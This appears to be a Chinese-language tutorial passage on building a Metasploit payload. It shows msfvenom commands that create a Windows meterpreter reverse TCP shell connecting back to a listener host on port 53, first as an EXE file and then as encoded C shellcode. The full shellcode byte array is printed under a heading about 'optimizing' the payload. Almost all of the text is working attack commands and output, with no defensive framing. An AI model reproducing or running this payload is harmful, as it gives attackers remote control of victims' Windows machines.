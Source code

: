 ### payload生成：
```bash
root@John:/tmp# msfvenom ‐p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=53 ‐b '\x00' ‐f exe > First.exe
```

原始payload大小如下：  
73802字节，大概在72KB

```bash
root@John:/tmp# du ‐sb First.exe
73802 First.exe
```

### 第一次优化payload：
提取windows/meterpreter/reverse_tcp shellcode

```bash
root@John:/tmp# msfvenom ‐p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=53 ‐b '\x00' ‐f c
[‐] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[‐] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai chosen with final size 368
Payload size: 368 bytes
Final size of c file: 1571 bytes
unsigned char buf[] =
"\\xd9\\xc3\\xba\\xa1\\x43\\xe5\\x72\\xd9\\x74\\x24\\xf4\\x5d\\x29\\xc9\\xb1"
"\\x56\\x31\\x55\\x18\\x03\\x55\\x18\\x83\\xc5\\xa5\\xa1\\x10\\x8e\\x4d\\xa7"
"\\xdb\\x6f\\x8d\\xc8\\x52\\x8a\\xbc\\xc8\\x01\\xde\\xee\\xf8\\x42\\xb2\\x02"
"\\x72\\x06\\x27\\x91\\xf6\\x8f\\x48\\x12\\xbc\\xe9\\x67\\xa3\\xed\\xca\\xe6"
"\\x27\\xec\\x1e\\xc9\\x16\\x3f\\x53\\x08\\x5f\\x22\\x9e\\x58\\x08\\x28\\x0d"
"\\x4d\\x3d\\x64\\x8e\\xe6\\x0d\\x68\\x96\\x1b\\xc5\\x8b\\xb7\\x8d\\x5e\\xd2"
"\\x17\\x2f\\xb3\\x6e\\x1e\\x37\\xd0\\x4b\\xe8\\xcc\\x22\\x27\\xeb\\x04\\x7b"
"\\xc8\\x40\\x69\\xb4\\x3b\\x98\\xad\\x72\\xa4\\xef\\xc7\\x81\\x59\\xe8\\x13"
"\\xf8\\x85\\x7d\\x80\\x5a\\x4d\\x25\\x6c\\x5b\\x82\\xb0\\xe7\\x57\\x6f\\xb6"
"\\xa0\\x7b\\x6e\\x1b\\xdb\\x87\\xfb\\x9a\\x0c\\x0e\\xbf\\xb8\\x88\\x4b\\x1b"
"\\xa0\\x89\\x31\\xca\\xdd\\xca\\x9a\\xb3\\x7b\\x80\\x36\\xa7\\xf1\\xcb\\x5e"
"\\x04\\x38\\xf4\\x9e\\x02\\x4b\\x87\\xac\\x8d\\xe7\\x0f\\x9c\\x46\\x2e\\xd7"
"\\x95\\x41\\xd1\\x07\\x1d\\x01\\x2f\\xa8\\x5d\\x0b\\xf4\\xfc\\x0d\\x23\\xdd"
"\\x7c\\xc6\\xb3\\xe2\\xa8\\x72\\xbe\\x74\\x93\\x2a\\xbf\\x81\\x7b\\x28\\xc0"
"\\x89\\x4e\\xa5\\x26\\xd9\\xe0\\xe5\\xf6\\x9a\\x50\\x45\\xa7\\x72\\xbb\\x4a"
"\\x98\\x63\\xc4\\x81\\xb1\\x0e\\x2b\\x7f\\xe9\\xa6\\xd2\\xda\\x61\\x56\\x1a"
"\\xf1\\x0f\\x58\\x90\\xf3\\xf0\\x17\\x51\\x76\\xe3\\x40\\x06\\x78\\xfb\\x90"
"\\xa3\\x78\\x91\\x94\\x65\\x2f\\x0d\\x97\\x50\\x07\\x92\\x68\\xb7\\x14\\xd5"
"\\x97\\x46\\x2c\\xad\\xae\\xdc\\x10\\xd9\\xce\\x30\\x90\\x19\\x99\\x5a\\x90"
"\\x71\\x7d\\x3f\\xc3\\x64\\x82\\xea\\x70\\x35\\x17\\x15\\x20\\xe9\\xb0\\x7d"
"\\xce\\xd4\\xf7\\x21\\x31\\x33\\x84\\x26\\xcd\\xc1\\xa3\\x8e\\xa5\\x39\\xf4"
"\\x2e\\x35\\x50\\xf4\\x7e\\x5d\\xaf\\xdb\\x71\\xad\\x50\\xf6\\xd9\\xa5\\xdb"
"\\x97\\xa8\\x54\\xdb\\xbd\\x6d\\xc8\\xdc\\x32\\xb6\\xfb\\xa7\\x3b\\x49\\xfc"
"\\x57\\x52\\x2e\\xfd\\x57\\x5a\\x50\\xc2\\x81\\x63\\x26\\x05\\x12\\xd0\\x39"
"\\x30\\x37\\x71\\xd0\\x3a\\x6b\\x81\\xf1";
```